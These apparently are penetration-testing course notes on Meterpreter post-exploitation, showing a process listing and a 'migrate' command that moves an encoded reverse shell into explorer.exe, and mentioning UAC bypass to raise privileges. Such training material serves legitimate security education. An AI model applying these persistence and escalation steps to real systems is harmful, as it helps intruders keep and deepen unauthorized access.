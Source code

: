 22.5.2 Migrating Processes

• When we compromise a host, our meterpreter payload is executed inside the process of the application we attack. 

• If the victim closes that process, our access to the machine is closed as well.

• Using the migrate command, we can move the execution of our meterpreter to different processes.

• To do this, we first run ps to view all running processes and then pick one, like explorer.exe, andissue the migrate command.

meterpreter > ps
Process List
============
PID PPID Name Arch Session User Path
--- ---- ---- ---- ------- ---- ----
...
3116 904 WmiPrvSE.exe
3164 3568 shell_reverse_msf_encoded.exe x86 1 corp\offsec C:\Users\Offsec
.corp\Desktop\shell_reverse_msf_encoded.exe
3224 808 msdtc.exe
3360 1156 sihost.exe x86 1 corp\offsec C:\Windows\Syst
em32\sihost.exe
3544 808 syncbrs.exe
3568 1960 explorer.exe x86 1 corp\offsec C:\Windows\expl
orer.exe
3820 808 svchost.exe x86 1 corp\offsec C:\Windows\Syst
em32\svchost.exe
...
meterpreter > migrate 3568

[*] Migrating from 3164 to 3568...
[*] Migration completed successfully


• Note that we are only able to migrate into a process executing at the same privilege and integrity level or lower than that of our current process. 

• In the case of Sync Breeze, since we are running a Meterpreter payload with maximum privileges (NT SYSTEM), our choices are plentiful and we can migrate our shell to different user contexts by selecting a target process accordingly.
22.5.3 Post-Exploitation Modules

22.5.3 Post-Exploitation Modules

 In addition to native commands and actions present in the core APIs of the Meterpreter, there are several post-exploitation modules we can deploy against an active session.
 
 Sessions that we recreated by execution of a client-side attack will likely provide us only with an unprivileged shell.
 
 But if the target user is a member of the local administrators group, we can elevate our shell to a high integrity level if we bypass User Account Control (UAC). 
 
 In the previous example, we migrated our meterpreter shell to an explorer.exe process that is running at medium integrity. 
 
